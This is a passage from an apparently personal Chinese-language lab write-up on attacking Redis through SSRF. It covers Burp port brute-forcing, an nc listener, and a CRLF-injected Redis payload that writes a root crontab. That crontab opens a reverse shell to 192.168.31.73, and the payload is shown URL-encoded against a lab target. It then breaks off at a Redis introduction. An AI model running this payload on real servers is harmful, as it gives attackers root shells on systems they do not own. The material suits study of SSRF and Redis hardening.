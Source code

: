 这里可以使用burp来爆破端口<br />设置好变量<br />![Snipaste_2021-06-27_04-19-00.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738776904-dbc217c7-4bd7-44ed-be5a-c26c54c5b8ae.png#align=left&display=inline&height=983&id=ued6e0916&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-19-00.png&originHeight=983&originWidth=1694&size=115734&status=done&style=none&width=1694)<br />设置爆破1-10000端口<br />![Snipaste_2021-06-27_04-19-14.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738803443-d30bcf91-4005-46c0-a59e-6c7e4992222d.png#align=left&display=inline&height=983&id=u988823ae&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-19-14.png&originHeight=983&originWidth=1694&size=63569&status=done&style=none&width=1694)<br />以length排序后，可以立马发现6379端口<br />![Snipaste_2021-06-27_04-22-00.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738999467-146d6913-6620-4a05-8f92-bae26ab2feb4.png#align=left&display=inline&height=778&id=u106c439c&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-22-00.png&originHeight=778&originWidth=1049&size=35121&status=done&style=none&width=1049)<br />也可以通过python脚本实现……

2. 反弹shell

首先在主机192.168.31.73（kali）启动nc监听
```bash
nc -lvnp 10000
```
![Snipaste_2021-06-27_05-02-32.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624741363484-ef01dc2f-82f4-48d2-bd44-53e320f4b920.png#align=left&display=inline&height=61&id=vYTVZ&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_05-02-32.png&originHeight=61&originWidth=389&size=3231&status=done&style=none&width=389)<br />然后这里我们使用如下反弹shell的脚本
```bash
test%0D%0A%0D%0A

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.31.73/10000 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
我们将其进行URL编码
```http
http://172.18.0.2:6379/
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.31.73%2F10000%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```
其中172.18.0.2:6379是目标主机<br />通过burp构造发送包，点击send<br />![Snipaste_2021-06-27_05-08-28.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624741724489-e62348de-f886-4599-98b2-22b4a68dc15f.png#align=left&display=inline&height=983&id=u29f9a91d&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_05-08-28.png&originHeight=983&originWidth=1694&size=186418&status=done&style=none&width=1694)<br />回复包说明服务器已经收到了我们的请求<br />这时候我们再回到kali主机，发现已经得到了shell<br />![Snipaste_2021-06-27_05-10-08.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624741843784-99ed8c1d-5005-46d8-945e-b3933bcc6ed7.png#align=left&display=inline&height=241&id=u2af3d5c0&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_05-10-08.png&originHeight=241&originWidth=597&size=13175&status=done&style=none&width=597)
## SSRF漏洞渗透Redis
### Redis定义
REmote DIctionary Server(Redis) 是一个由Salvatore Sanfilippo写的key-value存储系统。<br />Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。<br />它通常被称为数据结构服务器，因为值（value）可以是 字符串(String), 哈希(Hash), 列表(list), 集合(sets) 和 有序集合(sorted sets)等类型。 ----摘自[runoob](https://link.zhihu.com/?target=https%3A//www.runoob.com/redis/redis-tutorial.html)<br />redis是一种非关系型数据库，nosql
### Redis安装
